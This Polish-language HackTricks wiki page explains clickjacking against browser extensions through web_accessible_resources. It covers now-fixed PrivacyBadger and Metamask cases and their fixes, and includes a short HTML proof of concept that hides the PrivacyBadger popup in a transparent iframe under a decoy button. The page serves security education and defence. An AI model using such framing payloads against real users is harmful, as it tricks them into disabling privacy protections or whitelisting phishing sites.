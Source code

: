 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

Ta strona będzie wykorzystywać lukę ClickJacking w rozszerzeniu przeglądarki.\
Jeśli nie wiesz, czym jest ClickJacking, sprawdź:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Rozszerzenia zawierają plik **`manifest.json`**, a ten plik JSON ma pole `web_accessible_resources`. Oto, co mówią [dokumenty Chrome](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources):

> Te zasoby będą dostępne na stronie internetowej za pośrednictwem adresu URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, który można wygenerować za pomocą **`extension.getURL method`**. Zasoby na liście dozwolonych są serwowane z odpowiednimi nagłówkami CORS, więc są dostępne za pośrednictwem mechanizmów takich jak XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

**`web_accessible_resources`** w rozszerzeniu przeglądarki nie są dostępne tylko przez sieć; działają również z wbudowanymi uprawnieniami rozszerzenia. Oznacza to, że mają zdolność do:

* Zmiany stanu rozszerzenia
* Ładowania dodatkowych zasobów
* Interakcji z przeglądarką w pewnym zakresie

Jednak ta funkcja stwarza ryzyko bezpieczeństwa. Jeśli zasób w **`web_accessible_resources`** ma jakąkolwiek istotną funkcjonalność, atakujący mógłby potencjalnie osadzić ten zasób w zewnętrznej stronie internetowej. Nieuważni użytkownicy odwiedzający tę stronę mogą nieświadomie aktywować ten osadzony zasób. Taka aktywacja może prowadzić do niezamierzonych konsekwencji, w zależności od uprawnień i możliwości zasobów rozszerzenia.

## Przykład PrivacyBadger

W rozszerzeniu PrivacyBadger zidentyfikowano lukę związaną z katalogiem `skin/`, który został zadeklarowany jako `web_accessible_resources` w następujący sposób (sprawdź oryginalny [post na blogu](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Ta konfiguracja prowadziła do potencjalnego problemu z bezpieczeństwem. Konkretnie, plik `skin/popup.html`, który jest renderowany po interakcji z ikoną PrivacyBadger w przeglądarce, mógł być osadzony w `iframe`. To osadzenie mogło być wykorzystane do oszukania użytkowników, aby nieświadomie kliknęli "Wyłącz PrivacyBadger dla tej witryny". Taki krok naruszyłby prywatność użytkownika, wyłączając ochronę PrivacyBadger i potencjalnie narażając użytkownika na zwiększone śledzenie. Wizualna demonstracja tego exploit'u jest dostępna w przykładzie wideo ClickJacking pod adresem [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Aby rozwiązać tę lukę, wdrożono proste rozwiązanie: usunięcie `/skin/*` z listy `web_accessible_resources`. Ta zmiana skutecznie zminimalizowała ryzyko, zapewniając, że zawartość katalogu `skin/` nie mogła być uzyskiwana ani manipulowana za pomocą zasobów dostępnych w sieci.

Naprawa była prosta: **usuń `/skin/*` z `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Przykład Metamask

A [**post na blogu o ClickJacking w metamask można znaleźć tutaj**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). W tym przypadku Metamask naprawił lukę, sprawdzając, czy protokół używany do uzyskania dostępu to **`https:`** lub **`http:`** (a nie **`chrome:`** na przykład):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Inny ClickJacking naprawiony** w rozszerzeniu Metamask polegał na tym, że użytkownicy mogli **Kliknąć, aby dodać do białej listy**, gdy strona była podejrzana o phishing z powodu `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Ponieważ ta strona była podatna na Clickjacking, atakujący mógł to wykorzystać, pokazując coś normalnego, aby ofiara kliknęła, aby dodać ją do białej listy, nie zauważając tego, a następnie wracając do strony phishingowej, która zostanie dodana do białej listy.

## Przykład Steam Inventory Helper

Sprawdź następującą stronę, aby zobaczyć, jak **XSS** w rozszerzeniu przeglądarki zostało połączone z luką **ClickJacking**:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Referencje

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
